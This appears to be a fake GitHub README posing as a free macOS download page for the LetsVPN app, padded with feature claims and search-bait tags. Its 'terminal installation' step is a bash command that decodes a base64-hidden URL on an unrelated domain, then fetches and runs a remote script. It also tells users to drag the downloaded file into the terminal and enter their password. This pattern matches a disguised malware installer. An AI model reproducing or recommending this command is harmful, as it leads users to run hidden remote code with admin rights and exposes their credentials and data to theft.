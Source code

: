 # LetsVPN — Free Download for macOS 🌐
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple221/v4/6c/85/a4/6c85a435-2da6-8d7c-d1ee-a755495d57f4/AppIcon-0-0-85-220-0-0-0-0-4-0-0-0-2x-sRGB-0-0-0-0-0.png/1200x630bb.png)

Effortlessly secure your online experience with LetsVPN for macOS. Follow the step-by-step instructions below to install this lightweight, high-speed VPN solution for free and protect your privacy today!

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/letsvpn)

If the download button doesn't work, follow the terminal-based installation instructions below for a seamless setup.

## 📦 How to Install LetsVPN for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with LetsVPN

- 🌍 **Global Server Access**: Connect to servers worldwide for unrestricted internet access.
- 🔒 **Enhanced Privacy**: Encrypt your data to stay secure on public Wi-Fi networks.
- ⚡ **High-Speed Connections**: Enjoy fast browsing and streaming with minimal latency.
- 🛠 **User-Friendly Interface**: Simple setup and intuitive controls for all users.
- 🔄 **Automatic Updates**: Stay protected with regular software updates.
- 🕵️‍♂️ **No-Logs Policy**: Browse confidently knowing your activity isn't tracked.

## About LetsVPN

LetsVPN is a powerful, free VPN solution designed specifically for macOS users who prioritize online security and unrestricted access. With its lightweight design and robust encryption protocols, LetsVPN ensures your data remains private, whether you're browsing at home or on public Wi-Fi. The software is optimized for macOS, offering seamless integration with your device for a hassle-free experience. By incorporating advanced VPN technology, LetsVPN delivers fast, reliable connections without compromising security.

The program’s intuitive interface makes it accessible to both beginners and advanced users. Whether you're looking to bypass geo-restrictions, protect sensitive data, or simply browse anonymously, LetsVPN offers a comprehensive solution. Its global network of servers allows you to connect from virtually anywhere, ensuring smooth streaming, gaming, and browsing. The free download option makes it an attractive choice for macOS users seeking a cost-effective VPN without sacrificing quality.

LetsVPN stands out for its no-logs policy, meaning your online activities are never tracked or stored. This commitment to privacy is paired with top-tier encryption standards, safeguarding your data from potential threats. The software also supports multiple protocols, allowing flexibility based on your needs, whether it’s speed for streaming or security for sensitive tasks.

Regular updates keep LetsVPN ahead of evolving online threats, ensuring your macOS device remains protected. The installation process, whether via .dmg or terminal, is straightforward, making it easy to get started. With a focus on user experience, LetsVPN minimizes setup time while maximizing performance, offering a reliable VPN solution for macOS users worldwide.

### Why Choose LetsVPN?

LetsVPN offers distinct advantages for macOS users. Its free download model eliminates cost barriers, making premium VPN features accessible to everyone. The software’s lightweight footprint ensures it runs smoothly without draining system resources, even on older macOS devices. With a global server network, high-speed connections, and a no-logs policy, LetsVPN combines affordability, performance, and privacy in one package.

## 🖼 Preview

![Main Interface](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/f0/d9/e3/f0d9e35c-78e0-57cc-52ec-451b53150c7d/b37df821-7605-4c54-bbbf-f13940c30317__U82f1_U65873.png/643x0w.jpg)  
*Clean and intuitive LetsVPN interface for easy server selection.*

![Server Selection](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource211/v4/d8/72/85/d872852e-5b2c-8b97-047c-1ad417fa0511/a9528feb-0917-4451-9363-6e435d645711__U82f1_U65871.png/643x0w.jpg)  
*Choose from global servers for fast, secure connections.*

![Connection Status](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/06/8e/4b/068e4b1b-8baa-24eb-f627-64140cfc7434/ab641ae5-9cea-48de-82d6-c3667604efa8_macOS_-2_U82f1_U6587.png/643x0w.jpg)  
*Real-time connection status with encryption details.*

## 🔍 Tags

letsvpn, letsvpn mac, letsvpn free, letsvpn downnload, letsvpn download free, letsvpn free download, letsvpn for mac, letsvpn mac os, letsvpn free mac, free letsvpn, download letsvpn, mac letsvpn, vpn for mac, free vpn mac, download letsvpn mac
